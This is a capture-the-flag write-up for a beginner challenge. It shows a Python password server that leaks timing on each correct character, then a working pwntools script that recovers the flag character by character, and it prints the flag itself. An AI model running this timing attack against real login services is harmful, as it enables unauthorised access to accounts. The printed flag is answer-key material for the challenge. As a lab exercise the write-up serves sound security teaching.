 # eepy-haj

[library.m0unt41n.ch/challenges/eepy-haj](https://library.m0unt41n.ch/challenges/eepy-haj) ![](../../resources/pwn.svg) ![](../../resources/baby.svg) 

# TL;DR

We get a simple, socket-based Python server:

```python
import socket
import threading
import time
import os

FLAG = os.getenv("FLAG", "flag{this_is_a_fake_flag}")
FLAG = os.getenv("FLAG", "fla")
PASSWORD = FLAG

def handle_client(client_socket):
    try:
        client_socket.send(b"Enter the password: ")
        received_password = client_socket.recv(1024).decode().strip()

        for i in range(len(PASSWORD)):
            if i >= len(received_password) or received_password[i] != PASSWORD[i]:
                client_socket.send(b"Wrong password!\n")
                client_socket.close()
                return
            # for security reasons, we wait a second so we can't spam passwords
            print(i)
            time.sleep(1)

        if received_password == PASSWORD:
            client_socket.send(f"Correct! Here is your flag: {FLAG}\n".encode())
        else:
            client_socket.send(b"Wrong password!\n")
    finally:
        client_socket.close()


def start_server():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(("0.0.0.0", 8000))
    server.listen(5)
    print("Server listening on port 8000")

    while True:
        client_socket, addr = server.accept()
        print(f"Accepted connection from {addr}")
        client_handler = threading.Thread(target=handle_client, args=(client_socket,))
        client_handler.start()


if __name__ == "__main__":
    start_server()
```

There are no obvious direct vulnerabilities, but there is a `sleep(1)`, executed for every
correct character of the password. Which makes for a simple timing attack:


```python
import pwn
import time
pwn.context(encoding='ascii', log_level='warning')

CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ{}!$%&()+,-./:;<=>@[]^`|#"
pwd = "SCD{t1ming_4tt4cks_4tw}"
while True:
    charFound = False
    for c in CHARSET:
        print("Trying: "+pwd+c)
        io = pwn.remote('7d8163bb-a893-458f-ab5a-e61d2e795415.library.m0unt41n.ch', 31337, ssl=True)
        io.recvuntilS(b"Enter the password: ")
        t = time.time()
        io.sendline(pwd+c)
        res = io.recvlineS()
        t = time.time() - t
        if res.startswith('Correct!'):
            print(res)
            break
        if abs(t-len(pwd+c))<0.3:
            pwd += c
            charFound = True
            break
    if not charFound:
        break
```

After some time, this produces the flag.

---

## `SCD{t1ming_4tt4cks_4tw}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
